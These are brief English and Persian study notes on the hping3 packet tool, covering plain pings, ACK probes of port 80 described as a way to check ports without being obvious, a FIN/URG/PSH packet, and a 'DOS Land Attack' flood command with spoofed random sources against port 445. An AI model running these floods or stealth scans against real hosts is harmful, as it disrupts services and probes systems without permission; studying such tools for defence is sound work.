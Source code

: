 $\color{#b91646}{\textsf{hping3}}$
==================================

### $\color{#25678D}{\textsf{hping3}}$

hping3 is a network tool able to send custom TCP/IP packets and to display target replies like ping program does with  ICMP  replies.  hping3 handle  fragmentation,  arbitrary packets body and size and can be used	in order to transfer  files  encapsulated  under  supported  protocols.

یک network tool است برای فرستادن packet های خاص TCP/IP -> توی پروتکل های UDP, ICMP و ... هم می تونه بفرسته.
_____________________
### $\color{#25678D}{\textsf{-1 normal ping}}$

نی تونه ping معمولی انجام بدیم. -> با استفاده از سوئیچ 1-

سوئیچ های زیادی داره.
______________________________
### $\color{#25678D}{\textsf{Create an ACK packet and send it to port 80 on the victim}}$
- **hping3 –A \<target IP address> -p 80** ->  Test with jadi.ir and yahoo.com

می تونیم برای اینکه تابلو نباشه داریم port چک می کنیم یهو ACK بفرستیم. -> با سوئیچ A- می تونیم پکت ACK بفرستیم.

اگر در جواب RST فرستاد می گه نفهمیدم چی گفتی => متوجه می شیم Port بازه.

اگر در جواب چیزی نفرستاد => متوجه می شیم که port بسته است یا یک stateful firewall سر راه است.
_______________
### $\color{#25678D}{\textsf{Create a packet with FIN, URG, and PSH flags set and send it to port 80 on the victim}}$
- **hping3 –F –P -U \<target IP address> -p 80**

_______________________
### $\color{#25678D}{\textsf{DOS Land Attack}}$
- **hping3 -V -c 1000000 -d 120 -S -w 64 -p 445 -s 445 --flood --rand-source VICTIM_IP
-c count, -d size, -S syn, -w winsize, -p port -s source port**

سوئیچ V- جزئیات بیشتری رو نشون میده.
